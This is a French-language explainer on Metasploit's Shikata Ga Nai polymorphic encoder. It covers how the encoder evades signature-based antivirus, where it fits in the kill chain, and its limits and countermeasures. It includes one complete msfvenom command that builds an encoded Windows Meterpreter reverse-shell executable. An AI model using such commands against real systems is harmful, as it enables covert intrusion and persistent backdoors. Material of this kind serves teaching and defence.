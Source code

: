 # Shikata Ga Nai (Encoder Polymorphique Metasploit) : Évasion et Persistance

Dans le contexte du hacking et des tests d'intrusion, **Shikata Ga Nai** n'est pas un outil autonome comme `ping` ou `nslookup`. C'est un **encoder polymorphique** de haut niveau intégré au framework **Metasploit**. Son objectif principal est de rendre les charges utiles (payloads) indétectables par les logiciels antivirus (AV) et les systèmes de détection d'intrusion (IDS/IPS) en changeant leur "signature" à chaque fois qu'elles sont générées.

Le nom "Shikata Ga Nai" (仕方がない) est une phrase japonaise signifiant "il n'y a rien à faire", "on ne peut rien y faire", ou "c'est comme ça". Dans ce contexte, cela peut impliquer l'idée que face à cet encodeur, les systèmes de défense sont démunis.

-----

## Qu'est-ce qu'un Encodeur Polymorphique?

Un encodeur polymorphique est un algorithme qui prend un morceau de code (votre payload, par exemple) et le transforme de telle sorte que :

1.  Le code encodé est différent à chaque génération, même si le payload original est le même.
2.  Le code encodé conserve sa fonctionnalité originale lorsqu'il est décodé et exécuté.
3.  Il inclut un petit "stub" (décodeur) qui est responsable de décoder le payload encodé au moment de l'exécution sur la machine cible. Ce stub lui-même peut aussi être polymorphique.

L'objectif est d'échapper à la détection basée sur les signatures. Si un antivirus a une signature pour un payload spécifique, un encodeur polymorphique va modifier ce payload de manière unique, le rendant méconnaissable pour la signature existante, tout en garantissant qu'il fonctionne toujours une fois décodé en mémoire.

-----

## Comment Fonctionne Shikata Ga Nai?

Shikata Ga Nai est un encodeur complexe qui utilise des techniques sophistiquées pour altérer la charge utile :

1.  **Encodage Multi-passes :** Il applique plusieurs passes d'encodage différentes. Chaque passe modifie la charge utile d'une manière unique.
2.  **Opérations Arithmétiques/Logiques :** Il insère des opérations inutiles ou des réorganisations de code qui n'affectent pas la logique finale, mais qui changent la signature binaire du payload.
3.  **Instruction Set Randomization :** Il peut utiliser différentes instructions CPU pour accomplir la même tâche, rendant le code plus difficile à analyser statiquement.
4.  **Stub Polymorphique :** Le petit morceau de code (le "stub" ou "shellcode decoder") qui est inclus avec le payload encodé pour le décoder au moment de l'exécution est lui-même polymorphique. Cela signifie que le décodeur est également modifié à chaque génération, ce qui rend la détection encore plus difficile.

**En pratique, dans Metasploit :**
Lorsque vous générez un payload avec `msfvenom` (l'outil de génération de payloads de Metasploit) ou que vous utilisez un exploit dans `msfconsole`/`Armitage`, vous pouvez spécifier un encodeur. Si vous choisissez `shikata_ga_nai` (généralement `x86/shikata_ga_nai` pour les architectures 32-bit), Metasploit appliquera cet encodage à votre payload avant de l'envoyer à la cible.

**Exemple d'utilisation avec `msfvenom` :**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<votre_IP> LPORT=4444 -e x86/shikata_ga_nai -i 5 -f exe -o encoded_payload.exe
```

Dans cet exemple :

  * `-p windows/meterpreter/reverse_tcp` : Le payload original (Meterpreter reverse TCP pour Windows).
  * `-e x86/shikata_ga_nai` : Spécifie l'encodeur Shikata Ga Nai pour architecture x86.
  * `-i 5` : Applique l'encodage 5 fois (plus d'itérations = plus de polymorphisme, mais aussi une taille de payload plus grande).
  * `-f exe` : Formate le payload en fichier exécutable Windows.
  * `-o encoded_payload.exe` : Nom du fichier de sortie.

-----

## Place de Shikata Ga Nai dans les Étapes de Hacking

Shikata Ga Nai est spécifiquement utilisé dans la phase d'**Armement (Weaponization)** et d'**Accès Initial (Delivery/Exploitation)** de la Cyber Kill Chain, ainsi que pour la **persistance** et l'**évasion**.

| Phase de Hacking | Rôle de `Shikata Ga Nai`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| :---------------- | :---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1. Reconnaissance | Non directement impliqué. Cette phase se concentre sur la collecte d'informations.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| 2. Armement (Weaponization) | C'est la phase où les attaquants créent leurs outils d'attaque. Shikata Ga Nai est utilisé ici pour **encoder et obscurcir les payloads** générés par Metasploit. Le but est de rendre l'arme (le fichier malveillant, le lien d'exploit) indétectable par les défenses antivirus/EDR, en vue de la livraison et de l'exploitation. Il modifie le shellcode afin qu'il ne soit pas reconnu par les signatures de sécurité connues.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| 3. Livraison (Delivery) | Le payload encodé avec Shikata Ga Nai est livré à la cible (par e-mail, via une clé USB, un site web malveillant, etc.). La phase de livraison elle-même ne concerne pas Shikata Ga Nai directement, mais la capacité du payload à échapper à la détection lors de la livraison dépend de son encodage.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| 4. Exploitation | Lorsque la vulnérabilité est exploitée et que le payload encodé est exécuté sur la cible, Shikata Ga Nai joue son rôle. Le décodeur inclus dans le payload encodé s'exécute, décode le payload original en mémoire, et permet ainsi à la fonctionnalité malveillante de s'activer sans être détectée par les mécanismes de sécurité basés sur la signature qui auraient pu scanner le fichier sur le disque. |
| 5. Installation (Persistance) | Les payloads encodés avec Shikata Ga Nai peuvent être utilisés pour établir des mécanismes de persistance sur la machine compromise (par exemple, en créant une backdoor qui se lance au démarrage). L'encodage aide la backdoor à rester indétectable sur le disque.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |
| 6. Commande et Contrôle (C2) | Une fois la session établie (par exemple, un shell Meterpreter), les communications C2 ne sont pas directement encodées par Shikata Ga Nai, mais la furtivité de la session initiale et de la persistance contribue à la mise en place d'un canal C2 stable et indétecté.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |

-----

## Limites et Contre-mesures (Via Gemini)

Bien que puissant, Shikata Ga Nai n'est pas une solution miracle et a ses limites :

  * **Détection Heuristique et Comportementale :** Les antivirus modernes utilisent des analyses heuristiques et comportementales, qui peuvent détecter des activités suspectes (le décodeur en train de s'exécuter, le processus qui se crée) même si la signature binaire est inconnue.
  * **Augmentation de la Taille :** L'encodage polymorphique augmente la taille du payload, ce qui peut rendre certaines techniques de livraison moins efficaces.
  * **Complexité de l'Environnement :** Sur des systèmes très sécurisés avec EDR (Endpoint Detection and Response) avancés, l'efficacité de Shikata Ga Nai peut être réduite.
  * **Non-persistance sur le Disque :** Il s'agit d'un encodage de runtime. Une fois décodé en mémoire, le payload est à nouveau en clair et peut être détecté par des scans de mémoire.

**Contre-mesures :**
Les défenses contre Shikata Ga Nai et des encodeurs similaires incluent :

  * **Analyse Comportementale :** Se concentrer sur le comportement du code plutôt que sur sa signature.
  * **Sandboxing :** Exécuter le code dans un environnement isolé pour observer son comportement avant qu'il n'atteigne le système réel.
  * **Restrictions d'Exécution :** Mettre en place des politiques (comme AppLocker sur Windows) pour n'autoriser l'exécution que de logiciels de confiance.
  * **Mises à jour Régulières :** Les signatures antivirus sont constamment mises à jour pour détecter les nouvelles variantes de stubs polymorphiques.

